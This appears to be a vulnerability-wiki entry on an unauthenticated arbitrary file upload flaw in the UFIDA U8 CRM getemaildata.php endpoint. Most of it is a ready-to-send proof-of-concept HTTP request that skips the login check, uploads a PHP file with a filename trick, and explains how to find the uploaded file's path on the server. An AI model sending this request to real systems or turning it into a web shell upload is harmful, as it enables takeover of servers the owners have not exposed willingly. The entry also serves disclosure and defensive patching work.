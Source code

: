 # UFIDA U8 CRM customer relationship management system getemaildata.php any file upload vulnerability

## Vulnerability Description

UFIDA U8 CRM customer relationship management system getemaildata.php file has any file upload vulnerability. The attacker can obtain server permissions through the vulnerability and attack the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA U8 CRM Customer Relations Management System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1680525831431-a143a41a-f89e-4132-913f-0f0e8858628c.png)

Verify POC

```plain
POST /ajax/getemaildata.php?DontCheckLogin=1 HTTP/1.1
Host:
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykS5RKgl8t3nwInMQ

------WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Disposition: form-data; name="file"; filename="test.php "
Content-Type: text/plain

<?php phpinfo();?>

------WebKitFormBoundarykS5RKgl8t3nwInMQ
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691569542684-fcd74f60-b580-4ce4-8d2e-a914e213fbd4.png)

File name requires hexadecimal minus one

```plain
/tmpfile/updD24D.tmp.php
```